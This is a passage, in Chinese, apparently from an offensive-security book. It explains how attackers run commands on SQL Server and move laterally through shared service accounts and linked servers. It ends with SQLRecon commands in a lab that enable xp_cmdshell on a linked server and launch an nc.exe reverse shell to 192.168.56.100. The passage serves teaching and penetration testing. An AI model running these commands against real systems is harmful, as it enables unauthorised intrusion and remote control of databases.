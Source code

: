 还有一种方法可以借助机器学习服务功能运行命令。它使你能够运行 R 和 Python 脚本。安装此功能需要 SQL Server 的付费版本。在我们的例子中，我们将使用免费的 Express 版本，并简要了解可用的运行命令的方法。首先，要启用外部脚本，需要`sysadmin`权限，并进行服务器级别的更改（**sp_configure 'external scripts enabled'**）。这两种语言有许多运行任意代码的方法，从 UNC 路径注入到完全交互式 Shell。一些有趣的示例可以在[25]和[26]中找到。PowerUpSQL 中的`Invoke-SQLOSCmdR`和`Invoke-SQLOSCmdPython`函数也可以自动化利用过程。

在接下来的部分，我们将探讨攻击者如何在目标环境的域和数据库层面进行横向移动。

# 横向移动

正如我们在*第五章*中看到的，理解攻击者如何滥用合法的应用程序和协议以在目标环境内扩展是至关重要的。SQL Server 还通过两种技术拓宽了横向移动的场景。一种是常见的，叫做共享服务账户。另一种则是 SQL Server 特有的——滥用数据库链接。我们将快速探讨第一个方法，重点关注第二种方法。我们将检查如何对链接服务器进行枚举、执行代码并提取明文硬编码凭证。

## 共享服务账户

在整个环境中使用共享服务账户可能会导致灾难性的后果。如果一个服务账户通过 Kerberoasting、UNC 路径注入或其他任何方式被攻破，这意味着所有使用该账户的实例都会被攻破。此外，服务账户默认在数据库和 SQL Server 级别具有`sysadmin`权限，并且可能在底层操作系统上具有广泛的权限。为了防止这种强大的横向移动，所有服务账户应在整个环境中保持唯一，并使用 gMSA。

## 数据库链接

什么是数据库链接？简单来说，它是两个或多个服务器之间的持久连接。它们允许你访问外部数据源，并且如果源是 SQL Server，还可以执行存储过程。链接即使跨越森林信任，也能正常工作，有时它可能是进入另一个域或森林的唯一途径。链接的配置方式有两种——使用当前登录用户的上下文或硬编码凭据。对链接服务器的查询是以用于配置链接的用户凭据执行的。实际上，这是冒充用户。链接可以被爬取，意味着攻击者可以从一个 SQL Server 跳到另一个 SQL Server。我们需要了解我们是谁，进行枚举，并寻找权限提升或横向移动的选项。

理想的攻击场景是识别链接服务器，检查用户帐户权限，验证`RPC Out`值，并启用`xp_cmdshell`以获得命令执行权限。`RPC Out`允许在指定的链接服务器上运行存储过程，并且只能通过`sysadmin`权限启用，使用`sp_serveroption`过程。如果`RPC Out`被禁用，即使拥有`sysadmin`权限，也无法在链接服务器上启用`xp_cmdshell`。原因是，通过`openquery()`运行的查询不需要执行`RECONFIGURE`。

PowerUpSQL 有两个功能（`Get-SQLServerLink`和**Get-SQLServerLinkCrawl**）可以帮助识别链接。Metasploit 有自己的模块，叫做`exploit/windows/mssql/mssql_linkcrawler`，可以完全自动化地部署有效载荷。攻击步骤如下：找到链接服务器，枚举它，了解登录上下文，然后提升权限和/或进行横向移动。

我们将在本节中使用 SQLRecon。我以`jon.snow`身份登录，使用以下命令执行上述所有操作：

```
SQLRecon.exe /a:WinToken /h:castelblack /m:whoami
SQLRecon.exe /a:WinToken /h:castelblack /m:links
SQLRecon.exe /a:WinToken /h:castelblack /l:braavos /m:lwhoami
SQLRecon.exe /a:WinToken /h:castelblack /l:braavos /m:lcheckrpc
SQLRecon.exe /a:WinToken /h:castelblack /l:braavos /m:lenablexp
SQLRecon.exe /a:WinToken /h:castelblack /l:braavos /m:lxpcmd /c:"C:\Users\Public\nc.exe -e cmd 192.168.56.100 443"
```

以下是执行在链接服务器上的命令输出：
